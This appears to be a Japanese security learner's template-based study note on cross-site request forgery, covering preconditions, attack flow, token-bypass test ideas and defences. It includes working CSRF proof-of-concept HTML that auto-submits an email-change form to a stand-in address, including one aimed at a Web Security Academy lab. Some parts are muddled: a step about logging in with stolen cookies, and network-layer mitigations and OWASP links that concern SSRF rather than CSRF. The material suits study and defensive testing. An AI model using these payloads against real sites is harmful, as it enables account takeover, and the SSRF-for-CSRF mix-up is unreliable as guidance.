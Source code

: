 # 脆弱性名: [Cross site Request Forgery (CSRF)]  

## 1️ 概要 / 定義
- クロスサイトリクエストフォージュリーは、攻撃者がユーザに意図しない操作を実行させることを可能にするウェブセキュリティの脆弱性。

## 2️ 攻撃の前提条件
- [関連するアクション]
	- 攻撃者がアプリケーション内で何らかのアクションを誘発する必要がある。
		- 特権での操作や自身のパスワード変更等
- [Cookieベースのセッション処理]
	- アクションの実行には1つ以上HTTPリクエスト発行が含まれアプリケーションはリクエストを送信したユーザを識別するために必要。
- [予測不可能なリクエストパラメータがないこと]
	- 攻撃者がすべてのパラメータの値を知っている必要がある。
		- CSRFにならない場合:これはパスワード変更であった場合、現在のパスワードを知らないとリクエストが処理されてないためそもそもCSRFの対象にはならないという話。
		- CSRFになる場合:

## 3️ 影響
- Webアプリでそのアカウントで許可されている操作はできてしまう。

## 4️ 何ができるか（攻撃成功時の具体例）
- 取得したユーザの権限によって変わる。

## 5️ 攻撃フロー（手順化）
1. [ステップ1：攻撃者がWebページを作成する。]
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
1. [ステップ2：ユーザに1で作成したページを踏ませる。]
2. [ステップ3：1で仕込んだメールアドレスに変更できていればOK]
3. [ステップ4 : 盗んだクッキーを使用してログインする。]
- **目的は「どうすれば成功するか」を他人に説明できるように書くこと**

## 6️ 検出方法（診断手法）
- 手動：
	- リクエストから CSRF トークンを削除するか、空白スペースを入れます。
	- POSTをGETに変更します。
	- CSRF トークンをランダムな値 (たとえば 1) に置き換えます。
	- CSRF トークンを同じ制約のランダム トークンに置き換えます。
	- HTML インジェクションを使用してトークンを抽出します。
	- 以前使用されたことのある CSRF トークンを使用します。
	- 正規表現をバイパスします。
	- リファラーヘッダーを削除します。
	- 手動で呼び出しを実行して CSRF を要求し、そのトークンをリクエストに使用します。
- 自動：
  - PoC作成をしてくれるツール
	  - https://github.com/0xInfection/CSRFPocGenerator.git
  - [どういう設定や条件で検出できるか]

## 7️ 判定基準
- [何をもって脆弱と判定するか]
- [ガイドライン（OWASP、CWEなど）や一般的な基準に照らして明文化]
- 例：認証なしで閲覧可能 / 特定操作が実行可能 / トークンがない 等

## 8️ 防御策 / 緩和策
- 技術的対策：
  - [ネットワーク層]
	  - リモートリソースアクセス機能を別々のネットワークに分割する。
	  - 「デフォルトで拒否」のFWポリシーで拒否または、ネットワークアクセス制御ルールを適用し、必須のイントラネットトラフィック以外はすべてブロック。
  - [アプリケーション]
	  - クライアントが提供するすべての入力をサニタイズして検証
	  - URLスキーマ、ポート、および宛先をホワイトリストで強制する。
	  - クライアントに生の応答を送信しない。
	  - HTTPリダイレクトを無効にする。
	  - DNS理バインディングやTOCTOU競合状態などの攻撃を回避するためにURLの一貫性に注意する。
- - [CSRFトークンの使用]
	- 機密性の高い操作を行うときには必ず実装するほうが安全
- [SameSite Cookieの使用]
	- SameSiteは、ほかのウェブサイトからのリクエストにウェブサイトのCoolieを含めるタイミングを決定するブラウザセキュリティのメカニズム。
	- SameSiteは3つのモードがある。
		- Strict:同一サイトのリクエスト以外はCookieを送らない。
		- Lax:通常は送らないがリンククリックやGetなどのナビゲーション時のみ送る。(POSTやAPIでは送らない。)
		- None:クロスサイトでも送る。ただしSecure属性必須(HTTPSのみ)
- [Refererベースの検証]
	- リクエストがアプリケーション自身のドメインから発信されたものかどうかを確認する。
- [OWASPなどの対策]
	- https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/
	- https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

## 9 Payload
```
▼Getの場合
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

▼Postの場合
<form method="POST" action="https://0a47002104cc99ee801e039900c40056.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="csrf2@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

---
## 【補足】理解すべき背景
- なぜこの脆弱性が成立するのか：
  - [仕様上、設計上、実装上、どの要素が原因か]
- よくある失敗事例：
  - [実際に企業や現場でありがちなミス]
- 関連する脆弱性・攻撃手法：
  - [他の脆弱性との関連性]